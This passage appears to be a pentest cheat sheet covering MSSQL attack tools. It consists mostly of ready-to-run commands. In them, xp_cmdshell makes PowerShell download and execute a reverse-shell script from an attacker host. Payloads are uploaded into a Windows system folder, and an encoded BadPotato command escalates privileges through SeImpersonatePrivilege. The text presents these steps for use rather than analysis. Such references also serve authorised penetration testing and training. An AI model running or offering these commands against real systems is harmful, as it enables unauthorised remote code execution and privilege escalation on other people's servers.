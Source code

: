 ### sqsh

```
$ sqsh -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
2> GO
```



### mssqlclient.py

```
$ mssqlclient.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.13.37/rev.ps1\")"
```



### mssql_shell.py

* [https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py)

Change `MSSQL_SERVER`, `MSSQL_USERNAME` and `MSSQL_PASSWORD` before running.

A scenario when [abusing SeImpersonatePrivilege with PrintSpoofer](/pentest/infrastructure/ad/privileges-abuse#printspoofer) (BadPotato):

```
$ python3 mssql_shell.py
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD pwn.exe \Windows\System32\spool\drivers\color\pwn.exe
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD Invoke-BadPotato.ps1 \Windows\System32\spool\drivers\color\potato.ps1
// . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Windows\System32\spool\drivers\color\pwn.exe"
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> powershell -enc LgAgAC4AXABJAG4AdgBvAGsAZQAtAEIAYQBkAFAAbwB0AGEAdABvAC4AcABzADEAOwAgAEkAbgB2AG8AawBlAC0AQgBhAGQAUABvAHQAYQB0AG8AIAAtAEMAIAAiAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABTAHkAcwB0AGUAbQAzADIAXABzAHAAbwBvAGwAXABkAHIAaQB2AGUAcgBzAFwAYwBvAGwAbwByAFwAcAB3AG4ALgBlAHgAZQAiAAoA
```



### mssql-cli

* [https://github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
$ python -m pip install mssql-cli
$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
```



### PowerUpSQL
